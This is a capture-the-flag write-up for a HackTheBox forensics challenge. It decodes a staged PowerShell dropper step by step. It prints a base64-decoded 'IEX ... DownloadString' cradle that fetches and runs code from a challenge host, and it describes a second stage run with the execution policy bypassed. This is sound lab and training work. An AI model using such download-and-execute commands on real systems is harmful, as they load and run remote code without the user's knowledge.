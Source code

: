 ### HTB Apocalypse 2025 Writeup: Thorin’s Amulet

In this challenge, we were provided with a powershell script Our objective is to find the flag from the provided script


![Scirpt](images/HTB_Apocalypse/1st_script.png)
> **Figure 1:** First Powershell Script.


Step 1: Analyzing the Given PowerShell Script
There seems to be and encoded command by base64, decoding it revealed the command

 
Decoded command: 
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
This command downloads and executes another PowerShell script (update) from http://korp.htb/update.


Step 2: Fetching the update Script
Since korp.htb needed to resolve correctly, we directly accessed the provided Docker instance at: http://83.136.251.19:48135/update
The downloaded script (update.ps1) contained:

![Script](images/HTB_Apocalypse/2nd_script.png)
> **Figure 2:** Second Powershell Script.

Analysis on the update.ps1 script

1.Fetches another script (a541a.ps1) from http://korp.htb/a541a.

2.Uses a special header (X-ST4G3R-KEY) for authentication. 

3.Executes the downloaded script (a541a.ps1) with Execution Policy Bypassed.
It is concluded that the next step is to retrieve a541a.ps1


Step 3: Fetching a541a.ps1
To retrieve a541a.ps1, ran:
Invoke-WebRequest -Uri "http://83.136.251.19:48135/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -OutFile "a541a.ps1"

![Scirpt](images/HTB_Apocalypse/output_hex.png)
> **Figure 3:** a541 file.

 
The script (a541a.ps1) contained hex-encoded string
Decoding it revealed the flag. Used python for the decoding process
 
![Scirpt](images/HTB_Apocalypse/htbbb.png)
> **Figure 4:** Flag.

